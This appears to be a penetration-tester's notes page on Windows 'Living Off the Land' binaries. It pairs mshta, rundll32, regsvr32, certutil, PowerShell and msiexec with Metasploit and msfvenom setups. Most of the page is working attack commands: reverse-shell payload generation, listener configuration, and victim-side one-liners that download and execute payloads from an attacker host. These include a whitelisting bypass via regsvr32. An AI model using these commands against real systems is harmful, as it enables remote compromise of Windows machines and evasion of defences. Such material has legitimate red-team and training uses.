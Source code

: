 # LOL Binaries

## General Concept

Living Off the Land (LOL) binaries are the native Microsoft binary applications that are preinstalled on windows systems and are almost always available for us to use. these can be as simple as the echo command or be used for more advanced stuff like downloading and executing files, converting exe to cert or other interesting  things that an attacker can leverage to bypass defense mechanisms.

Generally speaking, when we want a bin/reverse shell we go looking for the specific binaries that can download and execute our payloads. [LOLBAS ](https://lolbas-project.github.io)is a great collection of all known LOL binaries and we can search the collection for binaries with specific capabilities that we want by using a slash '/' and the name of the capability in the search bar for example /execute will show us all binaries that can execute code or scripts.

### For Download

{% embed url="https://lolbas-project.github.io/#/download" %}

### For Execute

{% embed url="https://lolbas-project.github.io/#/execute" %}

## Example Tools

**Mshta.exe :** Launch HTA attack via HTA Web Server of Metasploit

**Rundll32.exe :** Launch Rundll32 Attack via SMB Delivery of Metasploit

**Regsvr32.exe :** Launch Regsvr32 via Script Web Delivery of Metasploit

**Certutil.exe :** Launch MSbuild Attack via Msfvenom C# shellcode

**Powershell.exe :**

* Launch cscript.exe via Powershell
* Launch Batch File Attack via Powershell

**Msiexec.exe :** Launch msiexec attack via msfvenom

## Mshta.exe

Mshta.exe runs the Microsoft HTML Application Host, the Windows OS utility responsible for running **HTA**( HTML Application) files. HTML files that we can run JavaScript or VBScript with. You can interpret these files using the Microsoft MSHTA.exe tool.

Metasploit contain the “HTA Web Server” module which generates malicious hta file. This module hosts an HTML Application (HTA) that when opened will run a payload via Powershell. When a user navigates to the HTA file they will be prompted by IE twice before the payload is executed.

```
use exploit/windows/misc/hta_server
msf exploit(windows/misc/hta_server) > set srvhost 192.168.1.109
msf exploit(windows/misc/hta_server) > set lhost 192.168.1.109
msf exploit(windows/misc/hta_server) > exploit
```

```
mshta.exe http://192.168.1.109:8080/5EEiDSd70ET0k.hta
```

## Rundll32.exe

Rundll32.exe is associated with Windows Operating System that allows you to invoke a function exported from a **DLL**, either 16-bit or 32-bit and store it in proper memory libraries.

**Launch Rundll32 Attack via SMB Delivery of Metasploit**

Metasploit also contain the “SMB Delivery” module which generates malicious dll file. This module serves payloads via an SMB server and provides commands to retrieve and execute the generated payloads. Currently supports DLLs and Powershell.

```
use exploit/windows/smb/smb_delivery
msf exploit(windows/smb/smb_delivery) > set srvhost 192.168.1.109
msf exploit(windows/smb/smb_delivery) > exploit
```

Now run the malicious code through rundll32.exe on the victim machine (vulnerable to RCE) to obtain meterpreter sessions.

```
rundll32.exe \\192.168.1.109\vabFG\test.dll,0
```

## Regsvr32.exe

Regsvr32 is a command-line utility to register and unregister OLE controls, such as **DLLs** and ActiveX controls in the Windows Registry. Regsvr32.exe is installed in the %systemroot%\System32 folder in Windows XP and later versions of Windows.

_Syntax:_

```
Regsvr32 [/s][/u] [/n] [/i[:cmdline]] <dllname>
```

RegSvr32.exe has the following command-line options:

* /u – Unregister server
* /i – Call DllInstall passing it an optional \[cmdline]; when it is used with&#x20;
* /u, it calls dll to uninstall&#x20;
* /n – do not call DllRegisterServer; this option must be used with&#x20;
* /s – Silent; display no message boxes

**Launch Regsvr32 via Script Web Delivery of Metasploit**

****

This module quickly fires up a web server that serves a payload. The provided command which will allow for a payload to download and execute. It will do it either specified scripting language interpreter or “squiblydoo” via regsvr32.exe for bypassing application whitelisting. The main purpose of this module is to quickly establish a session on a target machine when the attacker has to manually type in the command: e.g. Command Injection.

Regsvr32 uses “squiblydoo” technique for bypassing application whitelisting. The signed Microsoft binary file, Regsvr32, is able to request a .sct file and then execute the included PowerShell command inside of it. Both web requests (i.e., the **.sct file and PowerShell** download/execute) can occur on the same port. “PSH (Binary)” will write a file to the disk, allowing for custom binaries to be served up to be downloaded/executed

```
use exploit/multi/script/web_delivery
msf exploit (web_delivery)>set target 3
msf exploit (web_delivery)> set payload windows/meterpreter/reverse_tcp
msf exploit (web_delivery)> set lhost 192.168.1.109
msf exploit (web_delivery)>set srvhost 192.168.1.109
msf exploit (web_delivery)>exploit
```

```
regsvr32 /s /n /u /i:http://192.168.1.109:8080/xo31Jt5dIF.sct scrobj.dll
```

## Certutil.exe

Certutil.exe is a command-line program that is installed as part of Certificate Services. We can use this tool to execute our malicious **exe file** in the target machine to get a meterpreter session.

**Launch certutil Attack via Msfvenom**

Generate a malicious executable (.exe) file with msfvenom and **start multi/handler** to get the reverse shell of the victim’s machine.

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.109 lport=1234 -f exe > shell.exe
```

Now, to dump configuration information or shell.exe file files with certutil. you can follow below syntax:

```
use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.109
msf exploit(multi/handler) > set lport 1234
msf exploit(multi/handler) > exploit
```

```
certutil.exe -urlcache -split -f http://192.168.1.109/shell.exe shell.exe & shell.exe
```

## **Batch File**

&#x20;PowerShell allows the client to execute **bat file**_._

```
msfvenom -p cmd/windows/reverse_powershell lhost=192.168.1.109 lport=4444 > 1.bat
```

```
nc -nvlp 4444
```

Then execute the following command on the remote side to get netcat session.

```
// Some powershell -c "IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.1.109/1.bat'))
```

## **Cscript**

PowerShell allows the client to execute **cscript.exe** to run **wsf, js** and **vbscript.**

```
msfvenom -p cmd/windows/reverse_powershell lhost=192.168.1.109 lport=1234 -f vbs > 1.vbs
```

Then execute the following command on the remote side to get a meterpreter session.

```
powershell.exe -c "(New-Object System.NET.WebClient).DownloadFile('http://192.168.1.109/1.vbs',\"$env:temp\test.vbs\");Start-Process %windir%\system32\cscript.exe \"$env:temp\test.vbs\""
```

```
use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.109
msf exploit(multi/handler) > set lport 1234
msf exploit(multi/handler) > exploit
```

## Msiexec.exe

As we all are aware that Windows OS comes installed with a Windows Installer engine which is used by **MSI packages** for the installation of applications. The executable program that interprets packages and installs products is Msiexec.exe.&#x20;

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.109 lport=1234 -f msi > 1.msi
```

```
use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.109
msf exploit(multi/handler) > set lport 1234
msf exploit(multi/handler) > exploit
```

```
msiexec /q /i http://192.168.1.109/1.msi
```
